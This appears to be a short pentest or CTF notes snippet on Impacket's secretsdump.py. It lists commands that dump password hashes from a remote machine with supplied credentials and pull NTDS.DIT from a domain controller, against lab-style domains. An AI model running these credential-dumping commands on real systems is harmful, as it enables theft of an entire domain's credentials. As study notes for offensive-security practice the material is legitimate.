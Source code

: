 Dumps hashes from remote machine without executing any agent there

```
secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Password@10.10.10.30
```

if you already have DC creds:
The `-just-dc` flag will dump `NTDS.DIT`

```
secretsdump.py -just-dc backup@spookysec.local
```
